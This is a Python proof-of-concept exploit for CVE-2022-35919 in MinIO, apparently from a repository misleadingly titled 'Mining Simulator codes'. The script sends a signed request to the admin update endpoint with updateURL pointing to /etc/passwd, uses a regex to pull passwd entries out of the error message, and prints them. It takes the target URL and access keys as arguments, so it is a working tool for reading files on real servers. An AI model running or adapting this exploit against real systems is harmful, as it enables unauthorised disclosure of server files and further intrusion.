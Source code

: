 # Mining-Simulator-codes
Mining Simulator codes
import urllib.parse
import requests, json, re, datetime, argparse
from minio.credentials import Credentials
from minio.signer import sign_v4_s3


class MyMinio():
    secure = False

    def __init__(self, base_url, access_key, secret_key):
        self.credits = Credentials(
            access_key=access_key,
            secret_key=secret_key
        )
        if base_url.startswith('http://') and base_url.endswith('/'):
            self.url = base_url + 'minio/admin/v3/update?updateURL=%2Fetc%2Fpasswd'
        elif base_url.startswith('https://') and base_url.endswith('/'):
            self.url = base_url + 'minio/admin/v3/update?updateURL=%2Fetc%2Fpasswd'
            self.secure = True
        else:
            print('Please enter a URL address that starts with "http://" or "https://" and ends with "/"\n')

    def poc(self):
        datetimes = datetime.datetime.utcnow()
        datetime_str = datetimes.strftime('%Y%m%dT%H%M%SZ')
        urls = urllib.parse.urlparse(self.url)
        headers = {
            'X-Amz-Content-Sha256': 'e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855',
            'X-Amz-Date': datetime_str,
            'Host': urls.netloc,
        }
        headers = sign_v4_s3(
            method='POST',
            url=urls,
            region='',
            headers=headers,
            credentials=self.credits,
            content_sha256='e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855',
            date=datetimes,
        )
        if self.secure:
            response = requests.post(url=self.url, headers=headers, verify=False)
        else:
            response = requests.post(url=self.url, headers=headers)
        try:
            message = json.loads(response.text)['Message']
            pattern = r'(\w+):(\w+):(\d+):(\d+):(\w+):(\/[\w\/\.-]+):(\/[\w\/\.-]+)'
            matches = re.findall(pattern, message)
            if matches:
                print('There is CVE-2022-35919 problem with the url!')
                print('The contents of the /etc/passwd file are as follows:')
                for match in matches:
                    print("{}:{}:{}:{}:{}:{}:{}".format(match[0], match[1], match[2], match[3], match[4], match[5],
                                                        match[6]))
            else:
                print('There is no CVE-2022-35919 problem with the url!')
                print('Here is the response message content:')
                print(message)
        except Exception as e:
            print(
                'It seems there was an issue with the requested response, which did not meet our expected criteria. Here is the response content:')
            print(response.text)


if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--url", required=True, help="URL of the target. example: http://192.168.1.1:9088/")
    parser.add_argument("-a", "--accesskey", required=True, help="Minio AccessKey of the target. example: minioadmin")
    parser.add_argument("-s", "--secretkey", required=True, help="Minio SecretKey of the target. example: minioadmin")
    args = parser.parse_args()
    minio = MyMinio(args.url, args.accesskey, args.secretkey)
    minio.poc()
